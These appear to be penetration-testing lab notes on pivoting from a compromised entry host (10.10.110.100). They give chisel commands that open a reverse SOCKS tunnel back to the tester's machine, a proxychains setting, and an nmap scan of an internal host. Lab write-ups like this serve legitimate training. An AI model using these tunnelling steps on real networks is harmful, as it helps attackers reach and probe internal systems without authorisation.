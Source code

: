 ### Proxy

##### On [[10.10.110.100 (entrypoint) PWNED]] 
```sh
./chisel client LOCAL_IP:8001 R:socks
```

##### On LOCAL
```sh
./chisel server -p 8001 --socks5 --reverse
```

##### /etc/proxychains4.conf
```
socks5 127.0.0.1 1080
```


### nmap
```
Nmap scan report for 172.16.1.12
Host is up (0.00028s latency).
Not shown: 1177 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql
```

